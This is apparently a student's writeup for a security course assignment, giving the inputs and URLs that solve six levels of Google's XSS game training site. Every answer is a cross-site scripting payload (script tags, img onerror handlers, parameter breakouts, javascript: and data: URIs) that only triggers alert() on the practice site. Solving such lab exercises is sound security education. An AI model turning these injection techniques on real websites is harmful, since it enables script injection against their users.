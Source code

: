 # Crypto II Writeup

Name: Benjamin Chen 
Section: 0201

I pledge on my honor that I have not given or received any unauthorized
assistance on this assignment or examination.

Digital acknowledgement: Benjamin Chen

## Assignment Writeup

### Part 1 (40 Pts)

### Part 2 (60 Pts)

1) Input: <script>alert()</script>

2) Input: <img src ='foo' onerror=alert();>

3) Full URL: https://xss-game.appspot.com/level3/frame#1+".jpg'/> <img src='foo' onerror=alert();>

4) Full URL: https://xss-game.appspot.com/level4/frame?timer=')%3Balert()%3Bvar foo=('

5) Full URL: https://xss-game.appspot.com/level5/frame?next=javascript:alert()

Then enter anything in the email textbox and hit next

6) Full URL: https://xss-game.appspot.com/level6/frame#data:text/plain,alert()
